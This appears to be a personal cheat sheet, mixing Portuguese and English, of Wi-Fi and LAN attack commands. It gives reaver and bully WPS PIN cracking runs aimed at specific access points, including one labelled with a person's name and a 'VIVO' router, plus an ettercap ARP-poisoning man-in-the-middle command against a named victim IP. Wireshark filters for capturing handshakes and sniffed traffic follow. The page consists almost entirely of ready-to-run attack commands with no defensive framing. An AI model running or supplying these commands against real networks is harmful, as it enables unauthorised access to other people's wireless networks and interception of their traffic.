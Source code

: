 ```bash

# Attack (Regina) Santos
sudo reaver --interface wlan0mon --bssid 38:6B:1C:8C:11:F4 --channel 5 --dh-small --no-nacks --delay 15 -vv -w
```

<br>

---

## Bully

```bash
# Associação
sudo bully --bssid D8:C6:78:0F:73:14 --essid VIVO-7314 --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
#[!] Received disassociation/deauthentication from the AP
#[+] Rx(  M1  ) = 'EAPFail'   Next pin '20075361'

# Mi 8 Lite
sudo bully --bssid 5E:8F:53:F6:37:D0 --essid "MI 8 Lite" --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
```

## ARP Poison

[How Hackers SNiFF (capture) network traffic // MiTM attack](https://www.youtube.com/watch?v=-rSqbgI7oZM)

```bash
# Scan network looking for devices
sudo nmap -sn 192.168.0.1/24

# Man-in-the-Middle (MiTM) attack
sudo ettercap -T -S -i {interface} -M arp:remote /{ip router}// /{ip vítima}//
sudo ettercap -T -S -i wlan0mon -M arp:remote /192.168.0.1// /192.168.0.110//
#-T	text-only
#-S	no use ssl

# After capture using wireshark
sudo wireshark
```

<br>

---

## Filtros no _Wireshark_

```bash
# Filtra tudo de um IP específico
id.addr == 192.168.1.23

# Filtra tudo de um IP específico e com protocolo http
id.addr == 192.168.1.23 && http

# Filtra pacotes de handskacke
eapol
```

---